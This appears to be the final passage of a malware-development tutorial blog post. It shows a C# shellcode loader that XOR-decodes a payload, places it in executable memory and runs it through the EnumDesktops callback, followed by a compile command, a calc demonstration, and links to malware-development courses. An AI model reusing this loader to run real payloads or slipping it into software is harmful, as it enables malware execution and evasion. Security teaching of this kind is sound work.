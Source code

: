 ```csharp
                shellcode[i] = ((byte)(decoded[i] ^ key[(i % key.Length)]));

            IntPtr p = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            
            Marshal.Copy(shellcode, 0, p, shellcode.Length);
            
            // Callback function
            EnumDesktops(IntPtr.Zero, p, IntPtr.Zero);

            return;
        }
    }
}
```

Compile the code into an EXE using csc again: `csc.exe /target:exe /out:EnumDesktops.exe CSharp-Callback_EnumDesktops.cs`. Lastly, launch the EXE and watch it pop calc using the callback function!

<img src="/assets/images/maldev101/enumdesktops-callback.png" alt="Callback function" width="750px"/>

---------------------------------
## Recommended Resources

Below is a summary of resources I personally use and have found helpful in my malware development work.

### Courses
- [Sektor7: Malware Development Essentials](https://institute.sektor7.net/red-team-operator-malware-development-essentials): Great introductory self-paced course to get started in malware dev using C++. I've done multiple Sektor7 courses myself. 
- [Maldev Academy](https://maldevacademy.com/): Extremely thorough course that continuously gets updates as of 2024 and is backed by some known names in the industry. Very affordable with various pricing models. Can also be used as reference material since there's tons of useful content depending on what you're trying to do.
